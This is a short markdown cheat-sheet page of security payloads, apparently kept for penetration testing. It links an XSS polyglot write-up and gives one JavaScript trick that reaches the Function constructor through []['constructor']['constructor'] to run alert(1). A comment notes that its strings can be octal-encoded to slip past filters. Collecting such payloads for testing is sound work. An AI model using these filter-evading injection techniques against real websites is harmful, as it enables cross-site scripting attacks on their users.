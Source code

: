 # Payloads

## XSS

### [Ultimate XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
Nice xss polyglot with examples of context in which it can run

### Tricks:
```javascript
[]['constructor']['constructor']('alert(1)') // all strings can be replaced with 8 notation: "\143\157...." etc.
```
